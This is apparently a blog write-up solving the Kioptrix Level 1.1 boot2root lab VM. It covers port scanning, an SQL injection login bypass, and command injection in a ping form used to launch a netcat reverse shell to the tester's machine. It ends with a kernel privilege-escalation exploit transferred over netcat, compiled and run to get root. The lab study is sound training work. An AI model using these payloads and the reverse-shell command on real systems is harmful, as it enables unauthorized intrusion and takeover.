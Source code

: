 ```yaml
---
layout: post
title: "Kioptrix hacking challenge: Part 2"
date: 2012-07-06 18:10:26 -0400
comments: true
categories: boot2root
redirect_from: /2012/07/kioptrix-hacking-challenge-part-2.html
---
```


The second Kioptrix challenge isn't quite as scan and exploit as the first, but still a relatively easy beginner challenge. The Kioptrix challenges can be downloaded from [http://www.kioptrix.com/blog/?page_id=135](http://www.kioptrix.com/blog/?page_id=135). It's actually labeled as Level 1.1. The author mentions that there are multiple ways to compromise the system. I've only explored one method, which is what I'll be describing here.

<!--more-->

Once Kioptrix 1.1 had loaded, I ran a netdiscover scan and found it's IP address on my LAN: 192.168.1.146. I followed up with a port scan:

```
# nmap -sV -A -T4 192.168.1.146
 
Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2012-04-24 10:40 EDT
Nmap scan report for 192.168.1.146
Host is up (0.00047s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE              VERSION
22/tcp   open  ssh                  OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
| 1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http                 Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind (rpcbind V2) 2 (rpc #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            651/udp  status
|_  100024  1            654/tcp  status
443/tcp  open  ssl/http             Apache httpd 2.0.52 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08 00:10:47
|_Not valid after:  2010-10-08 00:10:47
|_sslv2: server still supports SSLv2
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
631/tcp  open  ipp                  CUPS 1.1
| http-methods: Potentially risky methods: PUT
|_See http://nmap.org/nsedoc/scripts/http-methods.html
3306/tcp open  mysql                MySQL (unauthorized)
MAC Address: 00:0C:29:BF:D3:86 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
```

A website is available, and it looks like a MySQL database runs in the backend. nmap also found an open CUPS port. I decided to start with the webserver. Browsing over to http://192.168.1.146, I was greeted with a login form.

![](/images/2012-07-06/01.png)

I decided to see if I could bypass the authentication mechanism using a simple SQL injection attack. For the username I entered test, and for the password I entered x' or 'x'='x. I was going by the assumption that the backend SQL code looked something like

```sql
SELECT * FROM ACCOUNTS WHERE USERNAME='test' AND PASSWORD='password'
```

By using x' or 'x'='x the query would be changed so that the results would always be true:

```sql
SELECT * FROM ACCOUNTS WHERE USERNAME='test' AND PASSWORD='x' OR 'x'='x'
```

I hit the Login button and was presented with a new form. The SQL injection worked and I was able to login as some authenticated user.

![](/images/2012-07-06/02.png)

It looked to be some sort of diagnostic tool that allowed an authenticated user to ping a machine. I punched in 127.0.0.1 and hit Submit to see what would happen. A new browser tab opened up that showed the ping results:

![](/images/2012-07-06/03.png)

I wondered if this form was susceptible to code injection. I assumed that the backend code for this form probably just made a system call to ping and passed it the IP address that I had entered in the form. If that was the case, I could chain my own commands at the end of the IP address and have them execute on the server. I started off with 127.0.0.1;id as a simple test:

![](/images/2012-07-06/04.png)

Sure enough, right at the end of the ping results, it showed me that the process had run as the apache user. If I could inject code that would run on the webserver, then I could make it give me a reverse shell so that I could have shell access to the server. Probing the system further, I used the whereis command and found netcat. It was time to try a reverse shell. On my terminal I started a netcat listener

```text
# nc -lvp 8080
```

On the webpage I entered the following into the form and hit Submit

```
127.0.0.1;/usr/local/bin/nc 192.168.1.172 8080 -e '/bin/bash'
```

Netcat on the server started up and connected to my netcat listener and gave me a reverse shell.

![](/images/2012-07-06/05.png)

Now that I had shell access to the system, exploring it would be much easier. Running uname gave me the kernel version, 2.6.9. Checking against exploit-db, I found several exploits against the 2.6.x kernel:

```
# /pentest/exploits/exploitdb/searchsploit kernel 2.6 linux local|sort -n
--------------------------------------------------------------------------- -------------------------
 Description                                                                 Path
Linux 2.6.30+/SELinux/RHEL5 Test Kernel Local Root Exploit 0day             /linux/local/9191.txt
Linux Kernel 2.4.1-2.4.37 and 2.6.1-2.6.32-rc5  Pipe.c Privelege Escalation /linux/local/9844.py
Linux Kernel 2.4/2.6 bluez Local Root Privilege Escalation Exploit (update) /linux/local/926.c
Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit [2]                 /linux/local/9598.txt
Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit [3]                 /linux/local/9641.txt
Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit (ppc)               /linux/local/9545.c
Linux Kernel 2.4/2.6 sock_sendpage() ring0 Root Exploit (simple ver)        /linux/local/9479.c
Linux Kernel 2.4/2.6 x86-64 System Call Emulation Exploit                   /linux/local/4460.c
```

The ring0 root exploit seemed promising, so I decided to try that one first. Using netcat, I transferred the file from my machine to the target: On my machine:

```
nc -lvp 9998 < /pentest/exploits/exploitdb/linux/local/9479.c
```

On the target machine:

```
cd /tmp/
nc 192.168.1.172 9998 > 9479.c
```

With the ring0 exploit transferred, it was time to compile and run it:

```
gcc 9479.c
./a.out
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00#
```

Instant root shell and game over.
This challenge was a just a little bit more involved than the first Kioptrix level. Getting a foothold into the system required a bit of knowledge about SQL injection, and how Linux commands can be chained. If you can find a way to run commands on the server remotely, you're one step closer to rooting it.
